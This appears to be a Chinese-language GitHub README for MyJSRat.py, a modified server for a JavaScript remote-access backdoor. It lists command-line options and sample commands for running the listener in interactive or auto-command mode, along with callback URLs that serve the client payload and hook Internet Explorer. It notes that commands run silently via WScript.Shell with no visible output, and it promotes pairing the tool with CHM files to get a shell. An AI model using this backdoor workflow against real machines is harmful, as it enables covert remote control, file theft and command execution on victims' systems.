# MyJSRat.py

把class合並到主文件中，方便git clone。


## 0x00 JSbackdoor
关于javascript backdoor 请查看：

[JavaScript Backdoor](http://drops.wooyun.org/tips/11764)

[JavaScript Phishing](http://drops.wooyun.org/tips/12386)

[JSRat.ps1](https://gist.github.com/subTee/f1603fa5c15d5f8825c0)

## 0x01 说明
研究JSbackdoor 之后想着写一个py版的，后来发现已经有小伙伴写过了，地址如下：[JSRat-Py](https://github.com/Hood3dRob1n/JSRat-Py)

测试使用的时候，为了更加方便，对上面的这个脚本进行了修改，添加了`-c` 参数可以实现在客户端连接之后自动执行命令。具体使用方式如下：
```
JSRat Server
By: Evi1cg

Usage: MyJSRat.py [options]

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  -p PORT, --port=PORT  Port to Run Server on
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  -f, --find-ip         Display Current Internal and External IP Addresses
  -c CMD, --command=CMD
                        auto Send command to client (No interaction)
  -v                    Enable Verbose Output
```

-f 参数可获取内外网ip地址：

![Alt text](./1459259057997.png)

脚本修改分为两个模式，交互模式以及执行命令模式。

*交互模式命令如下*：

```
 python MyJSRat.py -i 192.168.1.101 -p 8080
```
>-u 为可选参数，为回连url地址。

交互模式下可进行文件上传、下载、删除、命令执行等。

*执行命令模式命令如下*：

```
python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"
```
>执行命令模式下，会在获得shell之后自动执行指定命令，使用了`new ActiveXObject("WScript.Shell").Run(command,0,true)`,执行无回显，无弹框。

交互界面如下：

![Alt text](./1459259883470.png)

命令发送：

![Alt text](./1459260010566.png)

## 0x02 URL 说明
* http://192.168.1.101:8080/connect 默认回连地址
* http://192.168.1.101:8080/wtf 访问此链接获取客户端执行代码
* http://192.168.1.101:8080/hook 浏览器hook链接，适用于某些版本的IE

## 0x03 实际利用

CHM + JSRAT = Getshell

![Alt text](./getshell.gif)

Detail : [chm_backdoor](http://evi1cg.me/archives/chm_backdoor.html)





